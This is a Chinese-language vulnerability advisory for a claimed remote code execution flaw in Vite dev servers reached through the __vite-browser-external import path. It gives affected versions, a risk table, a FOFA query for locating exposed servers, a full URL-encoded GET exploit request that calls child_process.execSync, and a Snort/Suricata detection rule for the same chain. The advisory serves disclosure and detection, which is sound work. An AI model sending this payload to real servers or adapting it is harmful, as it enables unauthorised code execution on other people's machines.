

# Vite-browser-external-child_process-远程代码执行

Vite-browser-external-child_process-远程代码执行

# 影响版本

 **&gt;** =4.0.0 <=6.4.5 | >=7.0.0 <=7.3.7 | >=8.0.0 <=8.1.6 | >=8.2.0 <=8.2.4 | >=8.3.0 <=8.3.6

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **body=&quot;/@vite/client&quot;**

**POC/EXP：**

**step1**  代码执行

```
GET /@id/__vite-browser-external:%60%29;%7D%7D%29;%0Anew%20Worker%28new%20URL%28%22/src/main.js%22,%20import.meta.url%29,%7Btype:%28globalThis.process.getBuiltinModule%28%22fs%22%29.writeFileSync%28%22vite-safe-out-4a4ae7.txt%22,%20globalThis.process.getBuiltinModule%28%22child_process%22%29.execSync%28%22hostname%22,%7Bencoding:%27utf8%27%7D%29.trim%28%29%20+%20String.fromCharCode%2810%29%20+%20%22VTa0c60215fc%22%29,%27module%27%29%7D%29;%0A/%2A HTTP/1.1
Host: 127.0.0.1
Accept: */*
Sec-Fetch-Dest: script
Accept-Encoding: identity
User-Agent: vite-safe-module-check/1.0


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"Vite - __vite-browser-external 远程代码执行漏洞 (child_process利用链)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/@id/__vite-browser-external:"; fast_pattern;
        content:"%60"; nocase; distance:0;
        content:"new%20Worker"; nocase; distance:0; within:100;
        content:"getBuiltinModule"; nocase; distance:0; within:300;
        content:"child_process"; nocase; distance:0; within:200;
        content:"execSync"; nocase; distance:0; within:100;
    metadata:
        service http,
        affected_product "Vite",
        vulnerability_type "Remote Code Execution (Import)",
        severity "critical";
    classtype:web-application-attack;
    sid:1000848;
    rev:1;
    priority:1
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
